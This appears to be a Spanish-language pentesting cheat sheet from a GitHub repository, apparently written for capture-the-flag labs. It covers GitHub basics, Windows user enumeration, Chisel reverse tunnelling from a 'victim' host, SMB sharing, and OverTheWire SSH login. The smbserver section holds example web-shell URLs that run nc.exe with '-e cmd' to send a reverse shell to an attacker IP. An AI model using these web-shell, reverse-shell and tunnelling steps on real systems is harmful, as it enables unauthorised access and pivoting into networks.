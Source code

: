 
# ¿Qué es GitHub?

Github es un portal creado para alojar el código de las aplicaciones de cualquier desarrollador, y que fue comprada por Microsoft en junio del 2018.
La plataforma está creada para que los desarrolladores suban el código de sus aplicaciones y herramientas, y que como usuario no sólo puedas
descargarte la aplicación, sino también entrar a su perfil para leer sobre ella o colaborar con su desarrollo.

Git se utiliza también como sistemas de control, ya que permite comparar el código de un archivo para ver las diferencias entre las versiones, restaurar versiones
antiguas si algo sale mal, y fusionar los cambios de distintas versiones. También permite trabajar con distintas ramas de un proyecto, como la de desarrollo
para meter nuevas funciones al programa o la de producción para depurar los bugs.

Github permite que los desarrolladores alojen proyectos creando repositorios de forma gratuita. Pero hay que tener una cosa en mente, y es que para poder subir gratis
los proyectos deberán ser de código abierto. Y no quieres que tu aplicación sea de código abierto, la plataforma también tiene una versión de pago para alojar proyectos
de forma privada.


# rlwrap nc

Como añardir rlwrap a netcat para aplicar una shell interactiva.



# Comandos Terminal CMD Windows

## Ver Usuarios

Este comando tiene la tarea de enumerar todas las cuentas de usuario existentes en el sistema donde se incluyen la cuentas ocultas o cuentas de usuario deshabilitadas.
Estas cuentas de usuario se enumeran con su nombre interno asignado.

    net user
      
Podremos almacenar los resultados en un archivo de texto usando la siguiente sintaxis:

    net user > archivo.txt

También podemos indicar una ruta personalizada si así lo deseamos:
 
    net user > “ruta\archivo.txt
    
### Ver información detallada de un Usuaerio

Para obtener información mucho más detallada de un usuario del sistema, podemos ejecutar lo siguiente. Allí
vemos información precisa y completa sobre el usuario seleccionado.

    net user “usuario”

## Cambiar el nombre a un Archivo
    
Para cambiar el nombre de archivo2.txt por archivo3.txt, se puede usar el comando REN (o RENAME) escribiendo:

    REN archivo2.txt archivo3.txt 
    
    
# Crear un tunel con Chisel entre Linux y Windows:

##¿Qué es Chisel?

``Chisel es un túnel TCP/UDP rápido, transportado a través des servicio HTTP y protegido a través de SSH``. Esta escrito en Go  y utiliza el
protocolo de ``cliente`` a ``servidor``.  Chisel es principalmente útil para pasar a través de firewalls, aunque también se puede usar para 
proporcionar un punto final seguro en su red.

## Redireccionar puertos con Chisel a nuestra localhost:

Una vez hemos ganado acceso o tenemos la posibilidad de subir archivos y ejecutar comandos en el dispoditivo víctima, podemos crear un tunel
con ``chisel``. Mediante esta herramienta podremos establecer una conexión de ``cliente`` a ``servidor`` y conectar dos puertos entre si.
Básicamente conectamos un puerto de la máquina víctima con uno de nuestro equipo, de tal forma, que podemos ejecutar cualquier herramienta en 
local utilizando ese puerto, y automaticamente se redireccionara el ataque a la maquina victima.

### Establecer conexión por parte del Servidor (Linux):

En primer lugar, debemos de estabecer ``Chisel`` en modo ``Servidor`` en nuestro sistema Linux, para ello debemos de asegurarnos que la versión de
Chisel instalada es la adecuada para nuestra distribución. Para establecer nuestro sistema como servidor simplemente ejecutamos el siguiente comando
especificando el puerto que por el que vamos a establecer la conexión. Es importante que este puerto no se encutre en us.

    chisel serve --reverse --port [Puerto Local Conexión] 
    
    ./chisel serve --reverse -p [Puerto Local Conexión] 

``Ejemplo``

    chisel serve --reverse -p 8081

Aquí podemos ver como en el ejemplo hemos establecido un servicio de servidor con Chisel por el puerto 8081, este puerto es el que posteriormente
tendremos que especificar en el servicio por parte del Cliente para realizar la conexión.
    

### Establecer conexión por parte del Cliente (Windows):

Para establecer Chisel en un sistema Windows como ``Cliente``, nos descargamos la versión especifica para Windows (debemos de comprobar 
si el sistema es de 32 o 64 bits) y ejecutamos el siguiente comando. En el debemos especificar el puerto por el que vamos a comunicarnos 
con nuestro servicio ``Servidor`` y los puestos que vamos a comunicar entre si:


    .\chisel.exe client [Ip Local]:[Puerto de Conexión] R:[Puerto Víctima]:127.0.0.1:[Puerto Local]
    
``[Ip Local]``: Es la Ip de nuestro sistema Servidor. O en caso de estar conectados por VPN su Ip pública.  
    
``[Puerto de Conexión]``: Es el puerto establecido en la conexión con el Servidor. Debe ser el mismo puerto que especificado en el sistema Linux.  
    
``[Puerto Víctima]`` y ``[Puerto Local]``: El puerto Víctima pasará a ser el puerto local de nuestro local host 127.0.0.1.
    
    



---

# Crear recurso compartido con Smbserver:


    smbserver.py smbFolder $(pwd) -smb2support
    
    
De esta forma crearemos un recurso compartido a nivel de red que al cual podremos acceder desde cualquier navegador y pudiendo ver y compartir
archivos.

Para acceder a este recurso compartido simplemente escribimos nuestra Ip en el navegador seguido del nombre que le hemos dado a la carpeta compartida,
en este caso ``smbFolder``.

``Ejemplos``:

Mostrar con dir los recursos compartidos:
  
    http://10.10.10.198:8080/upload/kamehameha.php?telepathy=dir \\10.10.14.75\smbFolder\
    

Ejecutar nc.exe a través del navegador, tendremos que especificar una direccion y un puerto de escucha:

    http://10.10.10.198:8080/upload/kamehameha.php?telepathy=\\10.10.14.75\smbFolder\nc.exe -e cmd [Ip Atacante] [Puerto en Escucha]
    
    
---


    
# SSH

## Puerto predeterminado SSH:

La comunicación inalámbrica o por cable entre dos máquinas se realiza a través de puertos. Hay un total de 65,536 puertos de comunicación y la 
comunicación puede tener lugar a través de cualquiera de estos puertos. SSH se comunica por defecto a través del puerto 22. Cuando ejecutamos el 
comando anterior, la conexión entre el cliente local y el servidor se establece a través del puerto 22 y toda la comunicación se realiza a través 
de este puerto.

## Especificar puerto de conexión con SSH

En ocaciones, ``se puede modificar el puerto por el cual se conecta SSH``. En caso de no especificar ningún puerto SSH se conectará por defecto por
el puerto 22. En caso de querer especificar otro puerto lo podemo hacer con la opción ``-p`` seguido del puerto en cuestion.


    ssh [Usuario]@[Dirección] -p [Puerto]
    
    
# Ejemplo de conexión SSH:

Para realizar un ejemplo de como conectarno a otro equipo utilizando SSH vamos a utilizar la web ``https://overthewire.org``. Está página está 
enfocada en enseñar los parámetros básicos de Linux y SSH a través de distintos laboratorios. A estos laboratorios nos conetaremos a través de
SSH y la finalidad de cada practica es encontrar la flag secreta oculta en cada sistema. La flag encontrada es la contraseña para poder conectarnos
al siguiente nivel. 

En este ejemplo únicamente mostraremos como conectarnos a través de SSH, para ver todas practicas de ``OverTheWire`` podeís encontrarlas en la 
sección de Laboratorios.

En primer lugar abrimos la página oficial de Over The Wire:

Una vez abierta nos dirigimos al ``Nivel 0``:

Vemos como nos dice que el nombre del usuario es ``bandit0`` que la contraseña es ``bandit0`` también, la dirección es ``bandit.labs.overthewire.org´´
y nos indica que debemos utilizar el ``puerto 2220``:


    ssh bandit0@bandit.labs.overthewire.org -p 2220 
    
Una vez ejeuctado el comando anterior, nos pedirá la contraseña.     





    
